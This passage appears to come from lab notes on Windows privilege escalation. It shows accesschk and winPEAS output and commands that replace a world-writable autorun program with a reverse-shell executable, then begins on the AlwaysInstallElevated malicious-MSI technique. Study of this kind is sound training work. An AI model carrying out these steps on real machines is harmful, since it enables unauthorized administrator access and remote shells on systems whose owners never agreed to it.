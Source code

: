 ```powershell
    SecurityHealth    REG_EXPAND_SZ    %windir%\system32\SecurityHealthSystray.exe
    bginfo    REG_SZ    C:\BGinfo\Bginfo.exe /accepteula /ic:\bginfo\bgconfig.bgi /timer:0
    VMware VM3DService Process    REG_SZ    "C:\Windows\system32\vm3dservice.exe" -u
    VMware User Process    REG_SZ    "C:\Program Files\VMware\VMware Tools\vmtoolsd.exe" -n vmusr
    My Program    REG_SZ    "C:\Program Files\Autorun Program\program.exe"
	
C:\PrivEsc\tools>accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"

AccessChk v4.02 - Check access of files, keys, objects, processes or services
Copyright (C) 2006-2007 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\Program Files\Autorun Program\program.exe
  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone
        FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
        FILE_ALL_ACCESS
  RW BUILTIN\Administrators
        FILE_ALL_ACCESS
  RW MSEDGEWIN10\IEUser
        FILE_ALL_ACCESS
  RW BUILTIN\Users
        FILE_ALL_ACCESS
```

2. Backup program then replace with malicious payload
> copy "C:\Program Files\Autorun Program\program.exe" C:\Temp   
> copy /Y C:\PrivEsc\tools\reverse.exe "C:\Program Files\Autorun Program\program.exe"   
> Restart computer or have admin login

### AlwaysInstallElevated 
MSI files are package files used to install applications. These files run with the permissions of the user trying to install them. Windows allows for these installers to be run with elevated (i.e. admin) privileges. If this is the case, we can generate a malicious MSI file which contains a reverse shell.    
The catch is that two Registry settings must be enabled for this to work. The “AlwaysInstallElevated” value must be set to 1 for both the local machine and the current user:   
* HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
* HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer     

If either of these are missing or disabled, the exploit will not work.   

1.  Find Registry Values  
	* Use winPEAS to see if both registry values are set:    
	> winPEASany.exe quiet windowscreds      
  
  ```powershell
C:\PrivEsc\tools>winPEASany.exe quiet windowscreds
winPEASany.exe quiet windowscreds
 
-- Snip --

  [+] Checking AlwaysInstallElevated(T1012)
   [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!

-- Snip --
  ```
  